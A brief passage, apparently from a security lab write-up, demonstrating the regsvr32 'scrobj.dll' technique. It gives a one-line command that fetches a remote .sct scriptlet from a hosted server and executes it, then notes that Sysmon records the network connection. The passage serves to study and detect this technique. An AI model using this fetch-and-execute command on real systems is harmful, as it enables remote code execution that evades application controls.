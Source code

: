 
Invoke our file.svt by hosting it on a server
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll
```
calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)
